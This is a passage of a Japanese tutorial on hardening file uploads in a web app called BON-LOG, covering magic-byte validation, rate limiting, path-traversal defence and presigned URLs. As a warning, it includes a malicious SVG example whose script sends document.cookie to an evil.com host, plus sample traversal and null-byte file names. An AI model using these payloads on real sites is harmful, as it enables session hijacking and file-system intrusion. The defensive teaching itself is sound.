

### 11.11.9 マジックバイトの詳細解説

各ファイル形式のマジックバイトがどのようなバイナリパターンを持つか、具体的なバイト列とその意味を解説します。

```
■ JPEG ファイルのバイナリ構造

バイト位置:  0    1    2    3    4    5    ...
16進数:      FF   D8   FF   E1   xx   xx   ...
             │    │    │    │
             │    │    │    └── E0=JFIF, E1=EXIF, E2=ICC...
             │    │    └── FF = マーカー開始を示すプレフィックス
             │    └── D8 = SOI (Start Of Image) マーカー
             └── FF = マーカー開始を示すプレフィックス

※ すべてのJPEGは FF D8 で始まる。
  3バイト目以降がバリアントを示す。

■ PNG ファイルのバイナリ構造

バイト位置:  0    1    2    3    4    5    6    7
16進数:      89   50   4E   47   0D   0A   1A   0A
ASCII:            P    N    G    \r   \n   ^Z   \n
             │    │────│────│    │    │    │    │
             │    "PNG"の文字    │    │    │    │
             │                  │    │    │    │
             │    改行コード検出のための「罠」─────┘
             │    テキストエディタで開くと崩れるように設計
             └── 非ASCII文字（テキストファイルでないことを示す）

※ PNGのシグネチャは8バイト固定で、偶然一致する可能性が極めて低い。

■ WebP ファイルのバイナリ構造

バイト位置:  0    1    2    3    4    5    6    7    8    9   10   11
16進数:      52   49   46   46   xx   xx   xx   xx   57   45   42   50
ASCII:       R    I    F    F    (サイズ4B)        W    E    B    P
             │────│────│────│                      │────│────│────│
             "RIFF" コンテナ識別子                  "WEBP" サブタイプ

※ RIFFはMicrosoft由来の汎用コンテナ形式。
  同じ "RIFF" で始まるファイル形式:
  - WebP (8-11: WEBP)
  - AVI  (8-11: AVI )  ← 末尾がスペース
  - WAV  (8-11: WAVE)
  そのため、先頭4バイトだけでなく8-11バイト目の追加チェックが必要。

■ MP4 ファイルのバイナリ構造

バイト位置:  0    1    2    3    4    5    6    7
16進数:      xx   xx   xx   xx   66   74   79   70
ASCII:       (ボックスサイズ)    f    t    y    p
                                │────│────│────│
                                "ftyp" アトム識別子

※ MP4/MOV/3GPなどは全て "ftyp" アトムで始まる。
  ただし、オフセット 4 バイト目からの位置にある点に注意。
  先頭4バイトは「ボックスのサイズ」を示す整数値。
```

### 11.11.10 動画ファイルバリデーション

動画ファイルの検証は画像と似ていますが、いくつかの追加チェックがあります。

```typescript
/**
 * 動画ファイルを検証
 *
 * 画像バリデーションとの違い:
 * 1. claimedMimeTypeが 'video/' で始まることを確認
 * 2. 検出されたタイプが VIDEO_MIME_TYPES に含まれることを確認
 * 3. MP4/MOV は同じ 'ftyp' シグネチャを共有するため、
 *    両方を許可リストに含めるのが一般的
 */
export function validateVideoFile(
  buffer: Buffer,
  claimedMimeType: string,
  allowedTypes: string[] = ['video/mp4', 'video/quicktime', 'video/webm']
): FileValidationResult {

  // 1. 大分類チェック: 動画ファイルであること
  if (!claimedMimeType.startsWith('video/')) {
    return {
      valid: false,
      error: '動画ファイルを選択してください',
    }
  }

  // 2. マジックバイトから実際のタイプを検出
  const detectedType = detectFileType(buffer)

  if (!detectedType) {
    return {
      valid: false,
      error: 'ファイル形式を識別できません。有効な動画ファイルを選択してください',
    }
  }

  // 3. 検出されたタイプが動画形式か（VIDEO_MIME_TYPESセットで確認）
  if (!VIDEO_MIME_TYPES.has(detectedType)) {
    return {
      valid: false,
      error: 'このファイルは有効な動画ファイルではありません',
    }
  }

  // 4. 具体的な許可リストに含まれるか
  if (!allowedTypes.includes(detectedType)) {
    return {
      valid: false,
      error: `動画形式（${detectedType}）は対応していません。対応形式: ${allowedTypes.join(', ')}`,
    }
  }

  return { valid: true, detectedType }
}
```

> **MP4とMOVの区別が難しい理由**
>
> MP4（MPEG-4 Part 14）とMOV（QuickTime Movie）は、どちらもAppleが設計したQuickTimeコンテナ形式をベースにしています。ファイルの先頭構造（ftypアトム）が同一であるため、マジックバイトだけでは厳密に区別できない場合があります。BON-LOGでは両方を許可リストに含めることで、ユーザーがiPhoneで撮影した動画（MOV形式が多い）も問題なくアップロードできるようにしています。

### 11.11.11 メディアファイル統合バリデーション

画像と動画を自動判定して適切なバリデーションを適用する統合関数です。

```typescript
/**
 * メディアファイル（画像または動画）を統合検証
 *
 * この関数は「ルーター」として機能し、
 * ファイルのMIMEタイプに応じて適切な検証関数に振り分けます。
 *
 * ■ 使い方:
 *   バリデーション関数をどれを使えばよいか迷ったら、
 *   この関数を使えばOK（自動判定してくれる）
 */
export function validateMediaFile(
  buffer: Buffer,
  claimedMimeType: string
): FileValidationResult {
  // 画像の場合 → validateImageFile() に委譲
  if (claimedMimeType.startsWith('image/')) {
    return validateImageFile(buffer, claimedMimeType)
  }

  // 動画の場合 → validateVideoFile() に委譲
  if (claimedMimeType.startsWith('video/')) {
    return validateVideoFile(buffer, claimedMimeType)
  }

  // どちらでもない場合 → エラー
  return {
    valid: false,
    error: '画像または動画ファイルを選択してください',
  }
}
```

この設計パターンは**Facade（ファサード）パターン**と呼ばれます。複雑な内部処理を1つのシンプルな入口で包み隠すパターンです。



### 11.11.12 バリデーションの実行タイミング

BON-LOGでは、ファイルバリデーションがクライアント側とサーバー側の**2箇所**で実行されます。



> **重要: 「クライアント側バリデーションは信頼しない」原則**
>
> Webセキュリティの基本原則として、クライアント（ブラウザ）から送信されるデータは**すべて改ざん可能**です。クライアント側のバリデーションはユーザー体験（UX）の向上のためであり、セキュリティのためではありません。セキュリティはサーバー側のバリデーションで担保します。これを「Trust No Client（クライアントを信頼しない）」原則と呼びます。

### 11.11.13 SVG（Scalable Vector Graphics）を許可しない理由

BON-LOGの画像許可リストにSVG（`image/svg+xml`）が含まれていないのには、重要なセキュリティ上の理由があります。

```
■ SVGの危険性

SVGはXMLベースのベクター画像形式ですが、
内部にJavaScriptを埋め込むことが可能です。

悪意あるSVGの例:
  <svg xmlns="http://www.w3.org/2000/svg">
    <script>
      // ユーザーのCookieを盗む（XSS攻撃）
      new Image().src = 'https://evil.com/steal?cookie=' + document.cookie
    </script>
    <rect width="100" height="100" fill="red"/>
  </svg>

このSVGが他のユーザーのブラウザで表示されると:
  → JavaScriptが実行される
  → セッションCookieが攻撃者に送信される
  → アカウント乗っ取りにつながる

■ 対策:
  1. SVGをアップロード不可にする（BON-LOGの方針）
  2. SVGを許可する場合は、サニタイズ（スクリプト除去）が必須
  3. Content-Security-Policy ヘッダーで制限

■ 代替手段:
  ユーザーがSVGをアップロードしたい場合は、
  サーバー側でPNGに変換（ラスタライズ）してから保存する
```

<details>
<summary><b>理解度チェック: ファイルバリデーションの応用</b></summary>

**Q1**: クライアント側とサーバー側の両方でバリデーションを行う理由を説明してください。サーバー側だけでは不十分ですか？

**A1**: セキュリティの観点ではサーバー側のバリデーションだけで十分です。しかし、クライアント側でもバリデーションを行う理由は**ユーザー体験（UX）の向上**です。10MBの画像をアップロードして、サーバーに送信してから「サイズ超過」のエラーが返るのでは、ユーザーはアップロード完了を待った時間を無駄にします。クライアント側でファイル選択直後にチェックすれば、即座にフィードバックを返せます。ただし、クライアント側のチェックは攻撃者が簡単にバイパスできるため、セキュリティとしては信頼してはいけません。

**Q2**: RIFFコンテナ形式のファイル（WebP、AVI、WAV）を識別するために、先頭4バイトに加えて8-11バイト目もチェックする必要がある理由は何ですか？

**A2**: RIFF（Resource Interchange File Format）は汎用のコンテナ形式で、WebP、AVI、WAVなど複数のファイル形式が同じ先頭4バイト（`52 49 46 46` = "RIFF"）を共有しています。先頭4バイトだけでは「RIFFコンテナである」ことはわかりますが、中身がWebPなのかAVIなのかWAVなのか区別できません。8-11バイト目にサブタイプ識別子（WebPなら "WEBP"、AVIなら "AVI "）が格納されているため、ここをチェックすることで正確にファイル形式を判定できます。

**Q3**: SVG画像がXSS攻撃のベクターになりうる理由を説明してください。

**A3**: SVGはXML（テキスト）ベースの画像形式であり、`<script>` タグを含めることが仕様上許可されています。もしSVGファイルがそのままブラウザで表示される場合、SVG内のJavaScriptが閲覧者のブラウザで実行されます。攻撃者がJavaScriptを埋め込んだSVGをアップロードし、それが他のユーザーのブラウザで表示されると、セッションCookieの窃取やページ内容の改ざんなどのXSS（クロスサイトスクリプティング）攻撃が成立します。これがBON-LOGでSVGのアップロードを禁止している理由です。
</details>

---

## 11.12 アップロードセキュリティ

> **このセクションで学ぶこと**
> - レート制限によるアップロード濫用の防止
> - 認証チェックの実装パターン
> - Content-Type検証の多層防御
> - ファイル名サニタイズとパストラバーサル防止
> - 本番環境で考慮すべきセキュリティ対策

### 11.12.1 アップロードセキュリティの全体像

ファイルアップロードは、Webアプリケーションにおいて最も攻撃されやすい機能の一つです。BON-LOGでは多層防御（Defense in Depth）の考え方で、複数のセキュリティ層を設けています。



### 11.12.2 認証チェック

全てのアップロードAPIで最初に実行されるのが認証チェックです。

```typescript
// app/api/upload/route.ts

export async function POST(request: NextRequest) {
  try {
    // 認証チェック: NextAuth.jsのセッションを検証
    const session = await auth()

    if (!session?.user?.id) {
      // 未認証ユーザーには具体的な情報を与えない
      return NextResponse.json(
        { error: '認証が必要です' },
        { status: 401 }
      )
    }

    // 以降の処理では session.user.id を使用して
    // ユーザーを特定し、権限チェックを行う
    // ...
  } catch (error) {
    // エラー詳細はサーバーログのみに記録
    console.error('Media upload error:', error)

    // クライアントには一般的なメッセージのみ返す（情報漏洩防止）
    return NextResponse.json(
      { error: 'アップロード中にエラーが発生しました。しばらく経ってから再試行してください' },
      { status: 500 }
    )
  }
}
```

> **エラーメッセージのセキュリティ**
>
> エラーレスポンスでは、サーバーの内部情報（ファイルパス、スタックトレース、データベースエラーなど）をクライアントに返さないことが重要です。攻撃者にシステム構成を推測されるのを防ぎます。詳細なエラー情報はサーバーログに記録し、クライアントには一般的なメッセージのみを返します。

### 11.12.3 レート制限

アップロードの濫用（スパム、DoS攻撃など）を防ぐため、レート制限を実装しています。

```typescript
// app/api/upload/route.ts

// 分単位のレート制限（1分あたり5回）
const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
if (!rateLimitResult.success) {
  return NextResponse.json(
    { error: 'アップロードが多すぎます。しばらく待ってから再試行してください' },
    { status: 429 }  // 429 Too Many Requests
  )
}

// 日次制限（1日あたり50回）
const dailyLimitResult = await checkDailyLimit(session.user.id, 'upload')
if (!dailyLimitResult.allowed) {
  return NextResponse.json(
    { error: `1日のアップロード上限（${dailyLimitResult.limit}回）に達しました` },
    { status: 429 }
  )
}
```

レート制限の仕組みは`lib/rate-limit.ts`で実装されており、Redisをバックエンドに使用しています（Redisが利用できない場合はインメモリストアにフォールバック）。

| 制限の種類 | 制限値 | 期間 | 用途 |
|-----------|-------|------|------|
| リクエストレート | 5回 | 1分間 | バースト的なアップロードを防止 |
| 日次制限 | 50回 | 1日 | ストレージの過剰使用を防止 |

### 11.12.4 Content-Type検証の多層防御

Content-Typeの検証は複数のレイヤーで行います。

```typescript
// ── 第1層: リクエストのContent-Typeチェック ──
const isVideo = file.type.startsWith('video/')
const isImage = file.type.startsWith('image/')

if (!isVideo && !isImage) {
  return NextResponse.json(
    { error: '画像または動画ファイルを選択してください' },
    { status: 400 }
  )
}

// ── 第2層: 具体的なMIMEタイプの許可リストチェック ──
const allowedTypes = ['image/jpeg', 'image/png', 'image/webp']
if (!allowedTypes.includes(file.type)) {
  return NextResponse.json(
    { error: 'JPEG、PNG、WebP形式のみ対応しています' },
    { status: 400 }
  )
}

// ── 第3層: マジックバイトによる実際のファイル形式の検証 ──
const buffer = Buffer.from(await file.arrayBuffer())
const validation = validateImageFile(buffer, file.type)
if (!validation.valid) {
  return NextResponse.json(
    { error: validation.error },
    { status: 400 }
  )
}
```

### 11.12.5 パストラバーサル防止

ファイル名やフォルダパスの操作によるサーバーのファイルシステムへの不正アクセスを防止します。

```typescript
// ── ファイル名のサニタイズ ──
// ユーザー提供のファイル名は一切信頼しない
const safeFileName = generateSafeFileName(file.name, file.type)
// "../../etc/passwd.jpg" → "a1b2c3d4-e5f6-7890-abcd-ef1234567890.jpg"

// ── フォルダパスのホワイトリスト検証 ──
// app/api/upload/presigned/route.ts
const ALLOWED_FOLDERS = ['posts', 'post-videos', 'avatars', 'headers']

if (!ALLOWED_FOLDERS.includes(folder)) {
  return NextResponse.json(
    { error: '無効なフォルダです' },
    { status: 400 }
  )
}
```

パストラバーサル攻撃の具体例と防御を示します。

```
■ 攻撃例1: ファイル名によるパストラバーサル
  ファイル名: "../../../etc/passwd"
  意図: サーバーのシステムファイルを上書き

  → 防御: generateSafeFileName() でUUIDベースの名前に置換

■ 攻撃例2: フォルダパスの操作
  folder: "../../secret-data"
  意図: 許可されていないディレクトリにアクセス

  → 防御: ALLOWED_FOLDERS ホワイトリストで許可フォルダのみ受け付け

■ 攻撃例3: Nullバイト攻撃
  ファイル名: "image.jpg\x00.exe"
  意図: ファイル拡張子を偽装

  → 防御: ファイル名を完全に再生成するため、元のファイル名は使用されない
```

### 11.12.6 署名付きURL（Presigned URL）のセキュリティ

大きなファイル（動画など）のアップロードでは、署名付きURLを使用してクライアントからストレージに直接アップロードします。この方式にも固有のセキュリティ対策が必要です。

```typescript
// app/api/upload/presigned/route.ts（実際のコードから抜粋）

import { MAX_VIDEO_SIZE, PRESIGNED_URL_EXPIRY_SECONDS } from '@/lib/constants/limits'
import { ERR_AUTH_REQUIRED, ERR_RATE_LIMIT_UPLOAD } from '@/lib/constants/errors'

// 許可するMIMEタイプ
const ALLOWED_VIDEO_TYPES = ['video/mp4', 'video/quicktime', 'video/webm']

// 許可するフォルダ（パストラバーサル防止）
const ALLOWED_FOLDERS = ['posts', 'post-videos', 'avatars', 'headers']

export async function POST(request: NextRequest) {
  try {
    // 1. 認証必須
    const session = await auth()
    if (!session?.user?.id) {
      return NextResponse.json({ error: ERR_AUTH_REQUIRED }, { status: 401 })
    }

    // 2. レート制限チェック
    const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
    if (!rateLimitResult.success) {
      return NextResponse.json({ error: ERR_RATE_LIMIT_UPLOAD }, { status: 429 })
    }

    // 3. MIMEタイプの制限
    if (!ALLOWED_VIDEO_TYPES.includes(contentType)) {
      return NextResponse.json({ error: '許可されていないファイル形式です' }, { status: 400 })
    }

    // 4. ファイルサイズの事前チェック
    if (fileSize > MAX_VIDEO_SIZE) {
      return NextResponse.json(
        { error: `動画は${MAX_VIDEO_SIZE / 1024 / 1024}MB以下にしてください` },
        { status: 400 }
      )
    }

    // 5. フォルダのホワイトリスト検証
    if (!ALLOWED_FOLDERS.includes(folder)) {
      return NextResponse.json({ error: '無効なフォルダです' }, { status: 400 })
    }

    // 6. 署名付きURLに有効期限を設定
    // PRESIGNED_URL_EXPIRY_SECONDS = 3600（1時間）
    const presignedUrl = await getSignedUrl(s3Client, command, {
      expiresIn: PRESIGNED_URL_EXPIRY_SECONDS
    })
    // ...
  }
}
```

署名付きURLのセキュリティ特性を整理します。

| セキュリティ要素 | 内容 |
|----------------|------|
| 有効期限 | URLは1時間で失効する |
| ファイルキー | サーバーが生成したランダムなキーのみ使用可能 |
| Content-Type固定 | 署名に含まれるため、異なるMIMEタイプは拒否される |
| Content-Length固定 | 事前に申告されたサイズと異なるファイルは拒否される |
| ワンタイム使用 | 同じURLで複数回のアップロードはできない |

### 11.12.7 セキュリティ対策チェックリスト

本番環境に向けたセキュリティ対策のチェックリストです。

```
✅ 認証チェック（未認証ユーザーの拒否）
✅ レート制限（分単位 + 日次制限）
✅ ファイルサイズ制限（画像4MB、動画256MB）
✅ MIMEタイプのホワイトリスト検証
✅ マジックバイトによるファイル形式の真正検証
✅ UUIDベースのファイル名生成（パストラバーサル防止）
✅ フォルダパスのホワイトリスト検証
✅ エラーメッセージの情報漏洩防止
✅ 署名付きURLの有効期限設定
✅ EXIF情報の除去（プライバシー保護）
```

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: レート制限で429ステータスコードを返す理由は何ですか？

**A1**: HTTP 429（Too Many Requests）は、クライアントが制限を超えるリクエストを送信したことを明示的に伝えるステータスコードです。クライアント側はこのステータスを受け取って、ユーザーに「しばらく待ってから再試行してください」と適切なメッセージを表示できます。また、ブラウザのFetch APIやaxiosなどのHTTPクライアントライブラリは、429を受け取ると自動的にリトライを行う設定が可能です。

**Q2**: エラーレスポンスで内部情報を返さないことがなぜ重要ですか？

**A2**: サーバーの内部エラー詳細（ファイルパス、スタックトレース、データベーススキーマ、設定情報など）は、攻撃者にとってシステムの脆弱性を探る貴重な手がかりになります。例えば、ファイルパスからOS種類やディレクトリ構造を推測できますし、スタックトレースから使用しているライブラリのバージョンがわかり、既知の脆弱性を狙った攻撃が可能になります。クライアントには一般的なエラーメッセージのみを返し、詳細はサーバーログに記録するのがセキュリティのベストプラクティスです。

**Q3**: 署名付きURLでContent-LengthとContent-Typeを固定する利点は何ですか？

**A3**: (1) Content-Typeを固定することで、署名付きURL取得時に申告した形式と異なるファイル（例えば実行ファイル）をアップロードすることを防ぎます。(2) Content-Lengthを固定することで、申告と異なるサイズの巨大ファイルをアップロードしてストレージを消費する攻撃を防ぎます。これらはサーバーでのバリデーションをバイパスして直接ストレージにアップロードする方式の弱点を補う重要なセキュリティ機構です。
</details>

### 11.12.8 レート制限の内部メカニズム

BON-LOGのレート制限がどのように機能するか、`lib/rate-limit.ts`の実装を詳しく見ていきましょう。

```typescript
// lib/rate-limit.ts

/**
 * レート制限オプション
 *
 * windowMs: 時間窓（ミリ秒）
 *   例: 60000 = 1分間
 *
 * maxRequests: 時間窓内で許可される最大リクエスト数
 *   例: 5 = 1分間に5回まで
 */
interface RateLimitOptions {
  windowMs: number
  maxRequests: number
}

/**
 * レート制限の結果
 *
 * success: リクエストが許可されたか
 * remaining: 残りのリクエスト可能数
 * resetTime: 制限がリセットされるタイムスタンプ
 */
interface RateLimitResult {
  success: boolean
  remaining: number
  resetTime: number
}
```

レート制限のアルゴリズムを図解します。

```
■ 固定ウィンドウ方式のイメージ

時間軸:
  |←──── 1分間（60秒）────→|←──── 次の1分間 ────→|
  |                          |                       |
  |  req req req req req     |  req req              |
  |  1   2   3   4   5(上限) |  1   2  ← カウントリセット
  |                          |
  |  この期間内は追加リクエスト拒否

Redisでの管理:
  キー: "ratelimit:upload:user:abc123"
  値:   "5"  （現在のカウント）
  TTL:  58秒 （残り有効期限）

処理フロー:
  1. キー "ratelimit:upload:user:abc123" を GET
  2. 値が null → 新しいウィンドウ開始、"1" をセットしてTTLを60秒に設定
  3. 値が maxRequests 未満 → INCR（カウント+1）して許可
  4. 値が maxRequests 以上 → 拒否（429レスポンス）
  5. TTLが切れるとキー自動削除 → カウントリセット
```

```typescript
/**
 * レート制限のメイン関数
 *
 * Redis の GET/SET/INCR コマンドを使用して
 * アトミック（分割不可能）なカウント操作を実現
 */
export async function rateLimit(
  identifier: string,
  options: RateLimitOptions
): Promise<RateLimitResult> {
  const { windowMs, maxRequests } = options
  const redis = getRedisClient()

  // Redisキーの生成（名前空間で他のデータと分離）
  const key = `ratelimit:${identifier}`

  // ミリ秒 → 秒に変換（RedisのEXPIREは秒単位）
  const windowSeconds = Math.ceil(windowMs / 1000)

  try {
    // 現在のカウントとTTL（残り時間）を取得
    const currentStr = await redis.get(key)
    const ttl = await redis.ttl(key)

    // ケース1: キーが存在しない → 新しいウィンドウ開始
    if (!currentStr || ttl < 0) {
      await redis.set(key, '1', { ex: windowSeconds })
      return {
        success: true,
        remaining: maxRequests - 1,
        resetTime: Date.now() + windowMs,
      }
    }

    const current = parseInt(currentStr, 10)

    // ケース2: 制限超過 → 拒否
    if (current >= maxRequests) {
      return {
        success: false,
        remaining: 0,
        resetTime: Date.now() + ttl * 1000,
      }
    }

    // ケース3: 許可 → カウント+1
    const newCount = await redis.incr(key)
    return {
      success: true,
      remaining: Math.max(0, maxRequests - newCount),
      resetTime: Date.now() + ttl * 1000,
    }
  } catch (error) {
    /**
     * ★ フェイルオープン戦略
     *
     * Redis接続に問題がある場合、リクエストを「許可」する。
     *
     * なぜフェイルオープン？
     * → Redisの一時的な障害でユーザー全員がブロックされるのを防ぐ
     * → 短時間のRedis障害はそれほどセキュリティリスクが高くない
     *
     * 逆に、認証チェックはフェイルクローズ（障害時は拒否）が適切。
     * 機能の重要度に応じて使い分ける。
     */
    logger.error('Rate limit error:', error)
    return {
      success: true,
      remaining: maxRequests,
      resetTime: Date.now() + windowMs,
    }
  }
}
```

### 11.12.9 日次制限（Daily Limit）

分単位のレート制限に加えて、1日あたりの総操作数を制限する仕組みです。

```typescript
/**
 * 日次制限の設定
 *
 * ■ なぜ分単位のレート制限に加えて日次制限が必要か？
 *
 * 分単位: 5回/分 → 1時間で最大300回 → 1日で最大7,200回！
 * これではストレージのコストが爆発する可能性がある。
 *
 * 日次制限を追加することで:
 *   1日最大50回に制限 → コスト管理が可能に
 */
export const DAILY_LIMITS = {
  upload: 50,  // 1日50回まで
} as const

/**
 * 日次制限チェック
 *
 * ■ キー構造:
 *   "daily:upload:{userId}:{日付}"
 *   例: "daily:upload:abc123:2024-01-15"
 *
 * ■ 毎日リセット:
 *   日付が変わると新しいキーになるため、自動的にリセット
 *   古いキーは24時間後に自動削除（TTL設定）
 */
export async function checkDailyLimit(
  userId: string,
  limitType: keyof typeof DAILY_LIMITS
): Promise<{ allowed: boolean; count: number; limit: number }> {
  const redis = getRedisClient()
  const limit = DAILY_LIMITS[limitType]

  // 日付ベースのキー生成（UTC）
  const today = new Date().toISOString().split('T')[0]
  const key = `daily:${limitType}:${userId}:${today}`

  try {
    const currentStr = await redis.get(key)
    const current = currentStr ? parseInt(currentStr, 10) : 0

    if (current >= limit) {
      return { allowed: false, count: current, limit }
    }

    // カウントをインクリメント
    await redis.incr(key)

    // TTLが設定されていない場合、24時間後に自動削除
    const ttl = await redis.ttl(key)
    if (ttl < 0) {
      await redis.expire(key, 24 * 60 * 60)
    }

    return { allowed: true, count: current + 1, limit }
  } catch (error) {
    logger.error('Daily limit check error:', error)
    return { allowed: true, count: 0, limit } // フェイルオープン
  }
}
```

```mermaid
flowchart LR
    REQ["リクエスト"] --> RL["5回/分のチェック<br/>(checkUserRateLimit)"]
    RL -->|"OK"| DL["50回/日のチェック<br/>(checkDailyLimit)"]
    DL -->|"OK"| UP["アップロード処理"]
    RL -->|"超過"| RL_ERR["429 レスポンス<br/>「しばらく待ってから再試行」"]
    DL -->|"超過"| DL_ERR["429 レスポンス<br/>「1日の上限に達しました」"]

    style REQ fill:#e1f5fe
    style RL fill:#fff9c4
    style DL fill:#fff9c4
    style UP fill:#e8f5e9
    style RL_ERR fill:#ffcccc
    style DL_ERR fill:#ffcccc
```

```
■ なぜ2段階のチェックか？

分単位レート制限だけの場合:
  → 1分5回 × 60分 × 24時間 = 最大 7,200回/日
  → R2のClass A Operations: $4.50/100万回
  → 1ユーザーで年間 $11.83 のコスト
  → 1,000ユーザーで年間 $11,826 ！

分単位 + 日次制限の場合:
  → 最大 50回/日
  → 1ユーザーで年間 $0.08
  → 1,000ユーザーで年間 $82.13
  → コストが144分の1に削減
```

### 11.12.10 IPアドレスの取得とプロキシ対応

レート制限をかけるためには、リクエスト元を識別する必要があります。未認証ユーザーに対してはIPアドレスを使用します。

```typescript
/**
 * クライアントのIPアドレスを取得
 *
 * ■ プロキシ/CDN環境の問題
 *
 * 通常の接続:
 *   クライアント(IP: 1.2.3.4) ──→ サーバー
